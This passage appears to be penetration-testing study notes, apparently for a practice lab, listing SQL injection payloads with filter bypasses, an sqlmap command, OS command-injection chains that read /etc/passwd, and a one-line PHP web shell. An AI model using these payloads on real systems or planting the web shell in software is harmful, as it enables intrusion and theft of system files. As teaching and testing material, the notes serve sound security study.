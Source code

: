 ### Payloads from Notes

- Basic auth bypass: `?name=root'OR '1'='1'%23`
- No-space (tab bypass): `?name=root'%09OR%09'1'='1'%09%23`
- PHP comment spacing: `?name=root'/**/OR/**/'1'='1'/**/%23`
- Integer query: `?id=2 OR 1=1`
- Order by age: `?id=2 OR 1=1 ORDER BY age`
- Descending order: `?id=2 OR 1=1 ORDER BY age DESC`
- Regex bypass: `?id=2 OR 1=1 %23 5`

### Tools

- **sqlmap**

```bash
sqlmap -u "http://10.0.0.2/sqli/example1.php?id=1" --dbs
```

- Manual via **Burp** or **browser URL**

## OS Command Injection

Occurs when user input is used to construct shell commands without proper sanitization.

### Theory Recap

**Vectors**:

- `system()`
- `exec()`
- `popen()`

**Payload chaining**:

- `127.0.0.1; cat /etc/passwd`
- `| whoami`
- `&& id`

**Bypasses**:

- newline (`%0A`),
- null byte,
- encoded pipes

**Real-world use:**

- `ping`
- `traceroute`
- `disk check` inputs

### Payloads

- Simple: `ip=127.0.0.1;cat /etc/passwd`    
- PHP eval shell:

```php
<?php system($_GET["cmd"]); ?>
```
